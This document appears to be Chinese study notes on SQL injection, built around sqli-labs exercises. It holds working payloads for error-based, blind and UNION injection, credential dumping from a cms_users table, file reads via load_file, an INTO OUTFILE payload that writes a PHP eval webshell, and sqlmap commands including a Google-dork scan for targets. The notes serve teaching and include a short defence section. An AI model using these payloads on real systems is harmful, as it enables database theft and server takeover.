 
摘要：主要是围绕一些函数运用的
 关键词：   
    SQL（结构化查询语言，一种特殊的编程语言，用于数据库中的标准数据查询语言。与关系型数据库系统进行交流的语言。大多数情况下，SQL 语句独立于DBMS 存在，但同时，每种DBMS 的特性和对SQL 个性化支持。

一、SQL
       1.什么是SQL注入
            一种将SQL语句插入或添加到应用（用户）的输入参数中的攻击，之后再将参数传递给后台的SQL服务器加以解析并执行
            
            Web架构
            
       2.漏洞原理
                两个原因叠加造成的：
            1）程序编写者在处理程序和数据库交互时，使用字符串拼接的方式构造SQL语句
               2）没有进行足够的过滤，将参数内容拼接进入到SQL语句中
       3.危害
              读取（窃取）数据库中信息，脱库
              修改或插入数据
              获取WebShell
              提升权限，与数据库有关。
       4.分类和利用
               按照数据分类
                    数字型注入
                    字符型注入（引号闭合问题，必要时注释掉后面的内容
                         MYSQL中的注释>>  --+    URL编码转换  %23
               按照注入手法分类
                      联合查询 union select（判断当前表中字段列的个数
                                *等同于将一个表追加到另一个表，从而实现将两个表的查询组合到一起
                                注意：两张虚拟表的列数相同 字段类型相同
                      报错注入>>利用数据库的报错信息进行注入（详看基于报错的SQL注入详细解析
                       @    group by
                            关于group by 聚合函数的报错，是MySQL 的一个bug 编号为#8652。当使用rand() 函数进行分组聚合时，会产生重复键的错误。
?id=1' and (select 1 from (select count(*),concat((select database() from information_schema.tables limit 0,1),floor(rand()*2))x from information_schema.tables group by x)a) --+
                        @    extractvalue           
and extractvalue(1,concat('^',(select database()),'^'))      
                        @    updatexml              
  and updatexml(1,concat('^',(select current_user()),'^'),1)  current_user()当前用户名--常见MYSQL函数及其说明
                        布尔盲注
                             lenth（）    计算字符转的长度   >>可以用这个计算数据库名字长度
                             substr（1，2，3）     字符串截取函数
                                    1   被查找的字符串
                                    2   从第几位开始截取
                                    3   截取多少位
                                        substr(database(),1,1)   ord（）返回字符穿的ASCII码
                          例：
Less-08      判断长度是不是=8   在判断每一个字符对所对应ASII码中字是否正确
        /Less-8/?id=1' and length(database())=8--+    数据库名字的长度是8
        /Less-8/?id=1' and ord(substr(database(),1,1))=115--+   
            数据库名字的ASCII码
            115        101
                s        e
                        时间盲注 
                                if(1,2,3,)    if判断段
                                    1 表达式，如果表达式的值为真，返回2，若为假返回3
                                sleep（x）  让数据库沉睡X秒
                                F12控制平台网络查看是否沉睡
                                例：
!    Less-09
        /Less-9/?id=1' and sleep(5)--+
        /Less-9/?id=1' and if(length(database())=8,sleep(5),0)--+
        /Less-9/?id=1' and if(ord(substr(database(),1,1))=100,sleep(5),0)--+
        /Less-9/?id=1' and if(ord(substr(database(),1,1))=115,sleep(5),0)--+
                        读写文件的利用   load_file()
 load_file('C:\\Windows\\System32\\drivers\\etc\\hosts')  双斜线转义
 load_file('C:/Windows/System32/drivers/etc/hosts')
 load_file(0x433a2f57696e646f77732f53797374656d33322f647269766572732f6574632f686f737473)
?id=-36 +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,'<?php eval($_POST[666]) ?>',12,13,14,15 into outfile 'c:/xampp/htdocs/1.php' 要知道文件的绝对路径
插入命令则可以实现     
       
                
       5.如何判断SQL注入漏洞和方法的选择
                1） id=1       判断有无回显
                2）id=1'       判断有无报错
                3)   id=1  and 1=1       id=1 and 1=2 判断有无布尔类型的状态
                    报错注入
         6.注入手法的选择
                有无回显     有回显    联合查询
                有无报错     有报错    报错注入
                有无布尔类型   有      布尔盲注
                绝招                            时间盲注（延时注入）        
         7.注入的模式模板  payload
                 注入的手法固定的
二、注入流程
        首先获取数据库的名字>库中表明>>表中列（字段）名>>字段内容
三、MYSQL数据库的特性
            information_schema            元数据数据库（库名、表名、字段名）
            |
            `--tables                存储了所有的表的名字
            |    |    
            |    `--table_schema        表所属数据库的名字
            |    |
            |    `--table_name        表的名字
            |
            `--columns                存储了所有字段的名字
                |
                `--column_name        字段的名字
                |
                `--table_name        字段所属表的名字
                |
                `--table_schema        字段所属库的名字

四、联合查询
        联合查询
        @    查当前数据库的名字
?id=-36 +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,database(),12,13,14,15

            cms
        @    当前库中所有表的名字
?id=-36 +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,hex(group_concat(table_name)),12,13,14,15 from information_schema.tables where table_schema=database()
        group_concat(table_name)显示同一组的内容  
        hex将显示的内容进行十六进制编码 php识别不出来
               转换为十六进制是避免过滤一些特殊符号     
        @    cms_users 表中所有的字段名
?id=-36 +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,hex(group_concat(column_name)),12,13,14,15 from information_schema.columns where table_schema=database() and table_name='cms_users'
         @    脱库
?id=-36 +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,concat(username,0x3a,password),12,13,14,15 from cms_users
五、
        @    根据提交的方法分类
            GET 注入
            POST 注入
            Cookie 注入
            
        @    注入点的位置
            URL
            搜索框
            订单
            留言板
        @    其他分类
            宽字节注入
            堆叠查询
            base64注入        base64 编码方式        编码的规则？
六、防御
         @    安装WAF    Web Application Firewall
        @    过滤敏感字符串
        @    将SQL 语句预编译 PDO
        @    存储过程   
七、sqlmap   
        
    sqlmap 重要常用参数  
        -u/--url            检测注入点
        sqlmap -u "http://172.18.199.91/cms/show.php?id=36";
        --dbs            所有数据库名        
        --current-db    当前数据库的名字
        -D                指定一个数据库
        --tables        列出所有的表名
        -T                指定一个表
        --columns        列出字段名
        -C                指定字段
        --dump            列出内容
sqlmap -g "php?id="谷歌黑客语句批量去找注入点


ZKME                                            
SQL注入原理和危害，怎么防御
SQL基本注入手法、注入手法的选择
通过SQL注入，如何得到数据

